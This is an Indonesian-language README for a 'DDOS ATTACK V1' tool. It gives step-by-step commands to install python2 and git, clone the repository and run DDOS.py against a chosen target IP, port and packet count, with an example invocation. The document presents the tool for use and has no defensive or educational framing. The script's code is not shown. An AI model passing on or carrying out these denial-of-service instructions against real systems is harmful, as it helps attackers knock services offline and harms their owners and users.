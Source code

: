 # DDOS ATTACK V1
Cara Penggunaan:

$pkg install python2

$pkg install git


$git clone https://github.com/BagusXyz/DDOS-ATTACKV
$cd DDOS-ATTACKV1
$python2 DDOS.py <ip> <port> <packet>
Contoh:$python2 DDOS.py 123.45.678.99 8080 100
IP target: 123.45.678.99
Port: 8080


Packet: 100
	
	
	
	
	
	
